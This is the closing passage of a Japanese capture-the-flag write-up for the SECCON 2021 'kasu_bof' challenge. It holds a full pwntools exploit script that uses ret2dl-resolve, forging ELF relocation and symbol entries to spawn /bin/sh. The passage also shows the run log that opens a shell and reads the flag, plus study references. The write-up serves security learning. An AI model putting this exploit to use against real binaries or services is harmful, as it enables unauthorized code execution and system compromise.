dynstr = chall.get_section_by_name('.dynstr').header.sh_addr
gets_got = chall.got['gets']
gets_plt = chall.plt['gets']

# 0x08049022: pop ebx; ret;
pop_ret = 0x08049022

fake_elf32_rel_addr = bss

fake_elf32_sym_addr = fake_elf32_rel_addr + 0x10

system_symbol_addr = fake_elf32_sym_addr + 0x14

sh_symbol_addr = system_symbol_addr + 0x1c

# calc index of Elf32_Rel from .rel.plt
reloc_arg = fake_elf32_rel_addr - rel

# padding
buf = b'A'*0x84                  # fill stack
buf += p32(0xdeadbeaf)           # saved_ebp

# gets(fake_elf32_rel_addr)
buf += p32(gets_plt)             # main return addr
buf += p32(pop_ret)              # gets return addr
buf += p32(fake_elf32_rel_addr)  # gets arg

# gets(fake_elf32_sym_addr)
buf += p32(gets_plt)             # pop ret return addr
buf += p32(pop_ret)              # gets return addr
buf += p32(fake_elf32_sym_addr)  # gets arg

# gets(system_symbol_addr)
buf += p32(gets_plt)             # pop ret return addr
buf += p32(pop_ret)              # gets return addr
buf += p32(system_symbol_addr)   # gets arg

# gets(sh_symbol_addr)
buf += p32(gets_plt)             # pop ret return addr
buf += p32(pop_ret)              # gets return addr
buf += p32(sh_symbol_addr)       # gets arg

# system('/bin/sh')
buf += p32(plt)                  # pop ret return addr
buf += p32(reloc_arg)            # reloc arg
buf += p32(0xdeadbeef)           # system retrun addr
buf += p32(sh_symbol_addr)       # system arg

conn.sendline(buf)

# create Elf32_Rel
r_offset = gets_got
r_info   = ((fake_elf32_sym_addr - dynsym)//0x10)<<8 | 7

fake_elf32_rel = p32(r_offset)
fake_elf32_rel += p32(r_info)
    
conn.sendline(fake_elf32_rel)

# create Elf32_Sym
st_name = system_symbol_addr - dynstr
st_value = 0x0
st_size = 0x0
st_info = 0x12
st_other = 0x0
st_shndx = 0x0

fake_elf32_sym = p32(st_name)
fake_elf32_sym += p32(st_value)
fake_elf32_sym += p32(st_size)
fake_elf32_sym += p8(st_info)
fake_elf32_sym += p8(st_other)
fake_elf32_sym += p16(st_shndx)

conn.sendline(fake_elf32_sym)

# create system symbol
conn.sendline(b'system')

# create sh symbol
conn.sendline(b'/bin/sh')

conn.interactive()
    #+end_src

**** 実行結果
     # 以上の流れを踏まえて、作成したSolverを実行する。
     #+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ python solve.py 
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 9001: Done
[*] Switching to interactive mode
$ ls
chall
flag-4f8e964cf95b989f6def1afdfd0e91b7.txt
$ cat flag*
SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}
     #+end_example

**** ~SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}~
     
**  参考
- 詳解セキュリティコンテスト
  - https://book.mynavi.jp/ec/products/detail/id=122750
  - 33.2.2 発展：関数シンボルの動的解決 p.525
  
- ROP stager + Return-to-dl-resolveによるASLR+DEP回避 - ももいろテクノロジー   
  - https://inaz2.hatenablog.com/entry/2014/07/15/023406

- ret2dl resolve - slideshare
  - https://www.slideshare.net/sounakano/ret2dl-resolve

- セキュリティコンテストチャレンジブック
  - https://book.mynavi.jp/ec/products/detail/id=42421
  - 2.4 エクスプロイト - Retrun to PLT (ret2plt) p.109
    - x86のROP

- リンカ・ローダ実践開発テクニック
  - https://shop.cqpub.co.jp/hanbai/books/38/38071.html
  - 2.9 シンボル・テーブル p.54
    - Elf_Sym構造体について    
  - 2.10 再配置テーブル p.57
    - Elf_Rel構造体について

# - gdbに構造体定義を読み込ませて使う - ももいろテクノロジー
#   - https://inaz2.hatenablog.com/entry/2014/07/21/124857

- ret2dl_resolve Sections 關係表
  - https://hackmd.io/@LJP/BkJmAqXEI
  - ELfのマクロについて


created 2022/11/11\\
updated 2023/2/28
